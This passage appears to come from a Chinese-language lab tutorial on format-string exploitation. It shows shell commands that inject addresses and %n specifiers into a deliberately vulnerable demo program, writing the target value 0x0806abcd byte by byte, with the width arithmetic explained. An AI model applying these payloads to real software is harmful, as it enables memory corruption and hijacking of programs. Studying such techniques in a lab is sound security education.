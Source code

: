 ```bash
rz$ ./fmt_vuln.out "A`printf "\x74\xc8\xff\xff----\x75\xc8\xff\xff----\x76\xc8\xff\xff----\x77\xc8\xff\xff"`%176x%11\$n%12\$222x%13\$n"
your input:
At���----u���----v���----w���% 176x%11$n%12$ 222x%13$n
the wrong way to print:
At���----u���----v���----w���
                                        ffffcf1d
                                                                                                         2d2d2d2d
[*] value @ 0xffffc874 = 0x0001abcd # abcd前面的1是溢出来的一位
````

## 写入`0x06`

与之前相同，`0x06-0xab=-0xa5`，`0xa5`也就是`0xff5b`，所以再添加`0x5b=91`个字节即可

```bash
rz$ ./fmt_vuln.out "A`printf "\x74\xc8\xff\xff----\x75\xc8\xff\xff----\x76\xc8\xff\xff----\x77\xc8\xff\xff"`%176x%11\$n%12\$222x%13\$n%14\$91x%15\$n"
your input:
At���----u���----v���----w���%176x%11$n%12$222x%13$n%14$91x%15$n
the wrong way to print:
At���----u���----v���----w���
                                        ffffcf13
                                                                                                         2d2d2d2d
                                       2d2d2d2d
[*] value @ 0xffffc874 = 0x0206abcd
```

## 最后写入`0x08`

`0x08`与`0x06`相差2，但是`%x`最少输出8位，所以可写入`0x108`，溢出一位。`0x108-0x06=258`

```bash
rz$ ./fmt_vuln.out "A`printf "\x74\xc8\xff\xff----\x75\xc8\xff\xff----\x76\xc8\xff\xff----\x77\xc8\xff\xff"`%176x%11\$n%12\$222x%13\$n%14\$91x%15\$n%16\$258x
%17\$n"
your input:
At���----u���----v���----w���%176x%11$n%12$222x%13$n%14$91x%15$n%16$258x%17$n
the wrong way to print:
At���----u���----v���----w���
                                        ffffcf06
                                                                                                         2d2d2d2d
                                       2d2d2d2d
                                                                                                                                            2d2d2d2d
[*] value @ 0xffffc874 = 0x0806abcd
```

此时`0xffffc874`的值已经被改为`0x0806abcd`。
